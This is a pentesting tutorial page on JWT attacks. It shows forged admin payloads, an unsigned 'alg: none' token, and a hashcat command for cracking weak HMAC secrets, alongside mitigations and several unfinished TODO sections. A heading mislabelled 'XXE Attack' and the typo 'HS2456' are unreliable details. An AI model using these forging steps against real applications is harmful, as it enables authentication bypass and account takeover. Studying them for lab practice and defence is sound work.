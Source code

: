 ```yaml
---
title: JWT attacks
description: Poor implementation of JWT can be used to bypass authentication and access control
---
```

JSON Web Tokens (JWTs) are commonly used for authentication, session management, access control, and securely exchanging data between web applications. They are also widely used in API access, OAuth 2.0 flows, and Single Sign-On (SSO) implementations. However, poor implementation of JWTs can introduce serious security risks and may be exploited to compromise a web application.

Specs define JWT: [RFC7519](https://datatracker.ietf.org/doc/html/rfc7519)
## JWT Format
A JWT consists of three parts, separated by dots:
```css
HEADER.PAYLOAD.SIGNATURE
```
- **HEADER**: Define the type(`typ`) of token and the signing algorithm (`alg`) (e.g. `HS2456`)
- **PAYLOAD**: Contains claims about the user, session, or other data (e.g. `{"user": "user1", "admin": false}`). Common claims:
	- Issuer (iss)
	- Subject (sub)
	- Audience (aud)
	- Expiration time (exp)
	- Not before (nbf)
	- Issued at (iat)
	- JWT ID (jti)
- **SIGNATURE**:  A cryptographic signature that ensures the token hasn't been tampered with.
Each part is Base64URL-encoded (without padding) and concatenated with a dot:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJzdWIiOiJ1c2VyMSIsImFkbWluIjpmYWxzZX0.
X5cBA0klC0df_vxTqM-M1WOUbE8Qzj0Kh3w_N6Y7LkI
```

## JSON Web Algorithms (JWA)
JWT algorithms are defined in[JWA Specifications](https://datatracker.ietf.org/doc/html/rfc7518
Common JWT Signing Algorithms
- **Symmetric algorithms** (HMAC based using a shared secret): `HS256`, `HS384`, `HS512`
- **Asymmetric algorithms** (public/private key): `RS256` (RSA based), `ES256` (Elliptic Curve based), `PS256` (RSA based with MGF1 padding), etc.
- **None**: A non-algorithm that implies no signature (insecure and should never be used)
More algorithms at [RFC 7518](https://datatracker.ietf.org/doc/html/rfc7518#section-3)

Signing a token:
```js
signature = ALGORITHM.Sign(header + "." + payload, key)
```
Verifying a token:
```js
ALGORITHM.Verify(signature, header + "." + payload, key)
```

## XXE Attack
- Signature not verified
- Unsigned JWT
- Weak Signing Key

## Mitigation
- Always use a library’s **verify()** method before accessing claims.
- Never trust the payload until the signature is successfully validated.
- **Explicitly disable the "none" algorithm** in your JWT library configuration.
- Do not rely on defaults, enforce algorithm allowlists like `RS256` or `HS256`.
## Exploit
### Signature not verified
**JWTs are not encrypted by default**, which means their contents can be viewed and even modified by anyone. To ensure the token hasn't been tampered with, applications must validate the signature. However, some applications skip this critical step, allowing attackers to modify the payload and exploit the system with ease.

1. Get a valid JWT token.
2. Decode the Base64URL-decode to see header and payload
3. Make changes to the payload, like changing to a different user. 
```http
{  
    "iss": "portswigger",  
    "exp": 1747553975,  
    "sub": "john"  
}
```
Change user:
```http
{  
    "iss": "portswigger",  
    "exp": 1747553975,  
    "sub": "admin"  
}
```
4. Base64URL-encode the header and payload.
5. Send with original signature, if the application does not verify the signature you'll be authenticated as `admin` user.
### Unsigned JWT
Early versions of many JWT libraries accepted `None` or `none` as a valid option, meaning the token was considered valid **without a signature at all**.
1. Use burpsuite **JSON Web Token** extensions to remove the signature. 

![JSON Web Token](/images/JWT_20250518%20_164907.png)

2. It removes the signature. The header now looks like from this: 
```http
{  
    "typ": "JWT",  
    "alg": "HS256"  
}
```
to this:
```http
{  
    "typ": "JWT",  
    "alg": "none"  
}
```

3. JWT with no signature:
```http
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzU1NDQ3MCwic3ViIjoid2llbmVyIn0.
```
4. Send the token if the application does not reject `"alg": "none"`, it will accept the token as valid.
### Weak signing key
HMAC-based algorithms rely on the strength of the secret key. If the key is weak or easily guessable, an attacker can brute-force it and generate their own valid tokens, effectively bypassing authentication.

Use **hashcat** to try to brute-force the secret key.
```bash
hashcat -a 0 -m 16500 eyJraWQiOiI0ODY2MTZhOC1lM2I0LTQzZWItODQ3Mi04NTc1OTgzNWJhNTkiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzU1NDc1NSwic3ViIjoid2llbmVyIn0._75lGMCWEJRNqs-mH0KCZ4IDodeS3IEQFPhUZOGKDNk rockyou.txt
```

List of known JWT secrets: [wallarm/jwt_secrets](https://github.com/wallarm/jwt-secrets)

Create a new signing key with the cracked secret key.
1. Burp Suite > JWT Editor > New Symmetric Key
2. Specify secret > Generate
3. Go to JSON Web token, change the payload and sign with new key.![JWT Signing Key](/images/JWT_20250518%20_170826.png)
### Algorithm Confusion (RSA to HMAC)
TODO
### Algorithm Confusion (ECDSA to HMAC)
TODO
### `kid` Injection (Key ID Manipulation)
TODO
###  Embedded JWK (CVE-2018-0114)
TODO
### JKU / X5U Header Abuse
TODO
###  CVE-2022-21449 (Psychic Signature)
TODO
## Resources
- [The Ultimate Guide to JWT Vulnerabilities and Attacks](https://pentesterlab.com/blog/jwt-vulnerabilities-attacks-guide)
- [JWT Specification](https://datatracker.ietf.org/doc/html/rfc7519)
- [JSON Web algorithms](https://datatracker.ietf.org/doc/html/rfc7518)
- [JSON Web Token (JWT) Signing Algorithms Overview](https://auth0.com/blog/json-web-token-signing-algorithms-overview/)
